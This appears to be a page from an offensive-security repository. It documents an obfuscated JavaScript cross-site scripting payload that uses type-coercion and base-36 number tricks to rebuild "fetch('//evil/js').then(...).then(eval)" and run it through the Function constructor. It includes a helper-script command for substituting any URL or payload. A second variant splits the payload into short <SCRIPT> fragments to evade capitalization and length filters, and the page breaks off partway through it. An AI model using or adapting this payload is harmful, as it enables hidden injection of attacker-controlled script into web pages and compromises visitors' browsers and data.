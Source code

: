 Y=X+[]; // "function ...", to get letters "c" and "o"
S=F[3]+F[2]+Y[5]+Y[3]+F[4]; // S="slice"
C=Y[3]+Y[S](6,8)+F[3]+T[S](0,3)+Y[S](3,5)+Y[6]+T[1];
                                  // C="constructor"
N=C[S](8,10)+(""[C]+[])[S](9,15); // N="toString";
                                  // <number>["toString"](36)
                                  // can give any number or
                                  // lowercase letter as string
J=25885457[N](36) // "fetch"
+"('//"
+694029[N](36) // "evil"
+"/"
+712[N](36) // "js"
+"')."
+1375583[N](36) // "then"
+"("
+27[N](36) // "r"
+"=>"
+27[N](36) // "r"
+"."
+1372385[N](36) // "text"
+"()."
+1375583[N](36) // "then"
+"("
+693741[N](36) // "eval"
+"))";
(X[C](J))(); // X[C] is Array.prototype.fill["constructor"],
             // i.e. Function.prototype. It creates an
             // anonymous function with J as the body, which
             // is then executed
How to modify it
Replace the encoded payload above, in (X[C](encoded payload))(), with the output from:

python2 fetch_helpers.py -x '//myown/external/js' -e num_to_string --toString N
Note: You can give it an arbitrary payload using the -p option. See python2 fetch_helpers.py --help for more options.

Usecase: payload is being capitalized, character limit >= 10
Works with arbitrary payloads
No additional wrapping needed
<script> must not be blocked
Payloads order on page does matter.
Payload is the same as the one above. Split here to 10 characters for completeness.

TO DO: Encoder in fetch_helpers.py to split this to arbitrary length.

<SCRIPT>/*
*/T=!0/*
*/+[];/*
*/F=!1/*
*/+[];/*
*/I=1/0/*
*/+[];/*
*/X=/*
*/F[0]+/*
*/I[3]+/*
*/F[2]+/*
*/F[2];/*
*/X=[]/*
*/[X];/*
*/Y=/*
*/X+[];/*
*/C=/*
*/Y[3]+/*
*/Y[6]+/*